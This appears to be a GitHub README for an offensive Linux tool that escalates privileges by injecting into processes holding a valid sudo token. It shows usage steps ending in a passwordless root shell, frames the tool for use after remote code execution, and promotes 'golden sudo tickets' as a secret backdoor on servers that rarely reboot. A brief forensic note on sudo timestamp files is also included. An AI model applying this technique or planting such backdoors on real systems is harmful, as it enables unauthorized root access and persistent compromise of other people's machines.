 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## How to use
```sh
$ sudo whatever
[sudo] password for user: // Send <ctrl>+c since you don't have the password). // This creates an invalid sudo tokens.
$ ./exploit.sh // This activates our sudo token.
.... wait 3 seconds
$ sudo -i # no password required :)
# uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
A currently living process that has a valid sudo token with the same uid.
```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```
## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## More

### Forensic, DFIR ?

To be improved but for each sudo attemps there is an entry added to /var/run/sudo/ts/[username]
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Golden sudo tickets

A very good way to leave a secret backdoor on servers that rarely reboots.
No done yet but checkout './write_sudo_token $$' in ./extra_tools

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
